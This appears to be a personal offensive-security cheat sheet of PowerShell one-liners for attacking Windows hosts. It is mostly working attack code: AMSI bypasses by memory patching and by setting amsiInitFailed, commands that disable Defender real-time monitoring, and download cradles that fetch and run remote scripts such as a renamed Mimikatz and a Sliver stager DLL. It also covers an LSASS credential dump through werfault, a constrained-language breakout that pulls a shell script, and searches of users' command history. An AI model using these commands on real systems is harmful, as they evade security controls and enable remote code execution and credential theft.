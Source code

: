 
- Bypass AMSI with powershell (*Note* probably Win10 only)
```powershell
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```

- Win10 Bypass AMSI through amsiInitFailed (does not work on Win11 as far as I can tell)
	- Error on Win11 `MethodInvocationException: Exception calling "SetValue" with "2" argument(s): "Cannot set initonly static field 's_amsiInitFailed' after type 'System.Management.Automation.AmsiUtils' is initialized."`
	- TODO: research this more
```powershell
$a=[Ref].Assembly.GetTypes()
Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}}
$d=$c.GetFields('NonPublic,Static')
Foreach($e in $d) {if ($e.Name -like "*ms*nit*ai*") {$f=$e}}
$g=$f.SetValue($null,$true)
```


### Bypassing AMSI to execute malicious scripts 

- ASMI Bypass Powershell code with inspiration from (https://medium.com/@sam.rothlisberger/amsi-bypass-memory-patch-technique-in-2024-f5560022752b)
	- use ASBB.ps1 as a base
	- If downloading scripts that will be flagged by AMSI, rename them
	- add download code for these scripts at the end of ASBB.ps1
	- example for `Invoke-Mimikatz.ps1` which is renamed to `IM.ps1`
```powershell
(New-Object System.Net.WebClient).DownloadString(‘http://attacker.ip/IM.ps1') | IEX
```

- Download example
```powershell
iex -Debug -Verbose -ErrorVariable $e -InformationAction Ignore -WarningAction Inquire “iex(New-Object System.Net.WebClient).DownloadString(‘http://attacker.ip/ASBB.ps1')”
```

- Tamper Protection status:
	- If the output is `False`, Tamper Protection is enabled.
	-  If the output is `True`, Tamper Protection is disabled.
```powershell
(Get-MpPreference).DisableTamperProtection
```

- Disable Defender if Tamper Protection is off
```powershell
Set-MpPreference -DisableIntrusionPreventionSystem $true -DisableIOAVProtection $true -DisableRealtimeMonitoring $true
```

- Download and execute Powershell script

```powershell
 iex (New-Object Net.WebClient).DownloadString('http://ipaddress/script.ps1')
```

```powershell
Invoke-Expression -Command (Invoke-WebRequest -Uri 'http://ipaddress/script.ps1').Content
```

- View Applocker Policy
```powershell
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

### Users

- Who is logged in?
```powershell
Get-WmiObject -Class Win32_ComputerSystem | Select-Object -ExpandProperty UserName
```


### Execute in memory

- Download and execute a dll
```powershell
$assembly = [System.Reflection.Assembly]::Load((New-Object System.Net.WebClient).DownloadData('http://192.168.45.197:8000/SliverStagerDll.dll')); $class = $assembly.GetType('GoodShip.GoodShip'); $method = $class.GetMethod('LoadStager'); $method.Invoke($null, $null)
```


## Powershell Base64 Conversion

```powershell
$script = @"
\$webClient = New-Object System.Net.WebClient
\$dllBytes = \$webClient.DownloadData('http://192.168.45.197:8000/SliverStagerDll.dll')
\$assembly = [System.Reflection.Assembly]::Load(\$dllBytes)
\$goodShipType = \$assembly.GetType('GoodShip.GoodShip')
\$loadStagerMethod = \$goodShipType.GetMethod('LoadStager')
\$loadStagerMethod.Invoke(\$null, \$null)
"@
$bytes = [System.Text.Encoding]::Unicode.GetBytes($script)
$encodedScript = [Convert]::ToBase64String($bytes)
$encodedScript
```


## Dump a process

```powershell
# Get process by name or PID
$process = Get-Process -Name "notepad"

# Create a dump using task manager
Start-Process taskmgr.exe /PID $process.Id /DumpFile C:\dumps\processdump.dmp

```


### Dumping LSASS using werfault

```powershell
$lsass = Get-Process -Name lsass
$dumpPath = "C:\dumps\lsass.dmp"
Start-Process -FilePath "werfault.exe" -ArgumentList "/dump $($lsass.Id) $dumpPath"
```


## No-Language Mode Breakout (JEA)

```powershell
&{IEX(New-Object Net.WebClient).downloadString('http://192.168.45.159:8000/ps/shell.ps1')}
```

### Search for Powershell Command History for
```powershell
Get-ChildItem "C:\Users" -Directory | ForEach-Object { $h = "$($_.FullName)\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt"; if (Test-Path $h) { Get-Content $h | ForEach-Object { "$($_.Name): $_" } } }

```
